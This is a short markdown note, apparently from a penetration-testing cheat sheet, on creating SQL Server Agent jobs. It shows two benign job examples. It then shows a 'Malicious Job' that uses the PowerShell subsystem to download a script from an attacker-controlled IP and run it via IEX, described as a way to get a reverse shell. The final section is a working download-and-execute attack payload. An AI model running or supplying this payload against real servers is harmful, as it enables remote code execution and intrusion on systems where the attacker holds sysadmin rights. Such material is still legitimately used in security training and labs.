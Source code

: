 - **🧱 Requirements**
    - **<span style="color: red;">SQL Server Agent service</span>** must be **running**.
    - User must have **sysadmin** rights.

- **🧪 Normal Agent Job**
    
    ```sql
    USE msdb;
    EXEC dbo.sp_add_job @job_name = N'MyJob';
    EXEC sp_add_jobstep 
        @job_name = N'MyJob',
        @step_name = N'SampleStep',
        @subsystem = N'TSQL',
        @command = N'ALTER DATABASE SALES SET READ_ONLY';
    ```
    
- **👷 Normal Job Creation Example**
    
    Weekly Sales Data Backup  runs once at 23:30:00
    
    ```sql
    USE msdb;
    EXEC sp_add_job @job_name = N'Weekly Sales Data Backup';
    EXEC sp_add_jobstep
        @job_name = N'Weekly Sales Data Backup',
        @step_name = N'Set DB ReadOnly',
        @subsystem = N'TSQL',
        @command = N'ALTER DATABASE SALES SET READ_ONLY',
        @retry_attempts = 5,
        @retry_interval = 5;
    EXEC sp_add_schedule
        @schedule_name = N'RunOnce',
        @freq_type = 1,
        @active_start_time = 233000;
    EXEC sp_attach_schedule
        @job_name = N'Weekly Sales Data Backup',
        @schedule_name = N'RunOnce';
    EXEC sp_add_jobserver @job_name = N'Weekly Sales Data Backup';
    ```
    
- **💥 Malicious Job using PowerShell Subsystem**
    
    SQL Server provides **`CmdExec`** and **`PowerShell`** subsystems that can be used to execute system commands and PowerShell scripts, respectively. 
    
    You can create a **SQL Server Agent job** with a step that uses the **PowerShell subsystem** to **download and execute a script** hosted on your machine.
    
    Instead of scheduling the job, you can start it immediately using the `sp_start_job` stored procedure.
    
    **To run a PowerShell script (e.g., for a reverse shell):**
    
    ```sql
    USE msdb;
    EXEC sp_add_job @job_name = N'Malicious Job';
    EXEC sp_add_jobstep 
        @job_name = N'Malicious Job',
        @step_name = N'Execute PowerShell Script',
        @subsystem = N'PowerShell',
        @command = N"(New-Object Net.WebClient).DownloadString('http://10.10.14.104/a') | IEX;";
    EXEC sp_add_jobserver @job_name = N'Malicious Job';
    EXEC sp_start_job @job_name = N'Malicious Job';
    ```
    